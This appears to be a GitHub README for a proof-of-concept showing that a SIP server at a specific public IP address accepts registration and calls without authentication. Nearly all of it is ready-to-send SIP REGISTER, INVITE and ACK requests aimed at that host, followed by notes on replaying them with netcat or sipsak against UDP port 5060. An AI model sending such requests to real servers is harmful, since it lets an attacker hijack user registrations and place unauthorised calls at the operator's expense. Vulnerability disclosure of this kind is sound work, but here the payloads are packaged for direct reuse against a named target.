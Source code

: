 # SIP Proof of Concept Files

This repository contains proof-of-concept SIP request templates used to demonstrate unauthenticated registration and call setup on the target SIP service.

---

## 📂 Files

### 1. `add-binding.txt`
Registers a new binding (user `datmnky`) without authentication.

```sip
REGISTER sip:5.195.193.177 SIP/2.0
Via: SIP/2.0/UDP 192.168.68.61:5060;branch=z9hG4bKbind1;rport
Max-Forwards: 70
From: <sip:datmnky@5.195.193.177>;tag=03cc6949
To: <sip:datmnky@5.195.193.177>
Call-ID: 5b4939838b97523d271dcbccfd1c93fe84616196
CSeq: 3 REGISTER
Contact: <sip:datmnky@192.168.68.61:5060>
Expires: 3600
Content-Length: 0
```

---

### 2. `remove_binding.txt`
Removes the previously registered binding by setting `Expires: 0`.

```sip
REGISTER sip:5.195.193.177 SIP/2.0
Via: SIP/2.0/UDP 192.168.68.61:5060;branch=z9hG4bKremove1;rport
Max-Forwards: 70
From: <sip:datmnky@5.195.193.177>;tag=03cc6949
To: <sip:datmnky@5.195.193.177>
Call-ID: 5b4939838b97523d271dcbccfd1c93fe84616196
CSeq: 2 REGISTER
Contact: <sip:datmnky@192.168.68.61:5060>
Expires: 0
Content-Length: 0
```

---

### 3. `invite.txt`
Attempts to establish a call session to `datmnky` with unauthenticated INVITE.

```sip
INVITE sip:datmnky@5.195.193.177 SIP/2.0
Via: SIP/2.0/UDP 192.168.68.61:5060;branch=z9hG4bKinv1;rport
Max-Forwards: 70
From: <sip:datmnky@5.195.193.177>;tag=03cc6949
To: <sip:datmnky@5.195.193.177>
Call-ID: 5b4939838b97523d271dcbccfd1c93fe84616196
CSeq: 4 INVITE
Contact: <sip:datmnky@192.168.68.61:5060>
Content-Type: application/sdp
Content-Length: 132

v=0
o=- 0 0 IN IP4 192.168.68.61
s=Test Call
c=IN IP4 192.168.68.61
t=0 0
m=audio 49170 RTP/AVP 0
a=rtpmap:0 PCMU/8000
```

---

### 4. `ack.txt`
Sends ACK to confirm the INVITE/200 OK handshake.

```sip
ACK sip:datmnky@5.195.193.177 SIP/2.0
Via: SIP/2.0/UDP 192.168.68.61:5060;branch=z9hG4bKack1;rport
Max-Forwards: 70
From: <sip:datmnky@5.195.193.177>;tag=03cc6949
To: <sip:datmnky@5.195.193.177>
Call-ID: 5b4939838b97523d271dcbccfd1c93fe84616196
CSeq: 4 ACK
Contact: <sip:datmnky@192.168.68.61:5060>
Content-Length: 0
```

---

## ⚠️ Notes
- These messages were crafted manually for PoC purposes.  
- They demonstrate that the target SIP server does not enforce authentication.  
- For reproduction, send these payloads using `netcat` or `sipsak` against UDP port 5060 of the target.  

